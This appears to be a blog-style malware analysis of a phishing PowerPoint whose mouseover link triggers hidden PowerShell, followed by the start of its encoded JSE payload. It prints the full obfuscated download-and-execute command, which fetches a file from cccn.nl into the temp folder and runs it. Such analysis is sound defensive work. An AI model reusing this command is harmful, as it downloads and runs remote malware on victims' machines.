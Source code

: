 +++
title = "Analysis of a mouseover malicious powerpoint"
draft = false
tags = ["Maldocs",".ppt"]
categories = ["Phishing","Malicious_documents"]
ShowToc = true
+++

## Analysis of the order&prsn.ppt document
This post will be for the analysis of a malicious ppt document better known as order.ppt or prsn.ppt. General info about this document:
- MD5: 3bff3e4fec2b6030c89e792c05f049fc
- SHA256: 796a386b43f12b99568f55166e339fcf43a4792d292bdd05dafa97ee32518921

This document used an onhoven action on a link inside the document to try and invoke a powershell command.

### Powershell command
Initially, the first command used is the following powershell command which gets triggered upon hoverup on the hyperlink:  
![powershell command](/posts/malicious_ppt1/powershell_command.png)
The command is:
```ps
powershell -NoP -NonI -W Hidden -Exec Bypass "IEX (New-Object System.Net.WebClient).DownloadFile('http:'+[char] 0x2F+[char] 0x2F+'cccn.nl'+[char] 0x2F+'c.php',\"$env:temp\ii.jse\"); Invoke-Item \"$env:temp\ii.jse\""
```

We can further deobfuscate this command using engines like [tio.run](https://tio.run/):  
![tio.run](/posts/malicious_ppt1/tioRun_powershell.png)  

So this command tries to:
- download a file named "c.php" from h[x][x]p://cccn.nl/c.php
- outputs the contents of this file to the temp directory and specifically to a file named ii.jse

Although the domain is not live anymore and thus we cannot downloaded the `ii.jse` directly from it, we can utilize [Hybrid Analysis](https://www.hybrid-analysis.com/sample/55821b2be825629d6674884d93006440d131f77bed216d36ea20e4930a280302?environmentId=100) to get it from there.

### ii.jse file analysis

Getting the file, we will see it is not really readable:  
```sh
┌──(connar㉿kali)-[~/Documents/hybrid_analysis_sample]
└─$ cat ii.jse       
#@~^jh0FAA==dm3rRHmD/2,{;x9+Wk  +[Ikl3b00KD:.\l0k       o1Fx;   Nn0bU+9idC0k%324+dEkqZ';        N0k     +9I/m3r%Str^4GF{;x9+0bUnNp/m3r%.n7knh:4+l*x;    N+Wr    +[ikC0k0(DKkVk&WxE      Nn0bxn[p/l0r%1WxDUO/:tmxq';U9+Wk        nNp/CVb%ors9+[,Rx!x[0bx+9ikC3b%nlMY42'E  [+6kx[I/m3b%nl.O4vf'!UN0rUNidC0k0Y4nFf{E        N+6k    nNp/C3b%5;bm32T'!xNWrxNp/C3r0Dkh+lq'!x[n6kxn[p/C3b04W;M&+'E     NWk     +[iklVrRVlDO+MG%{;UN0bxnNIdm3r%D;D
```  
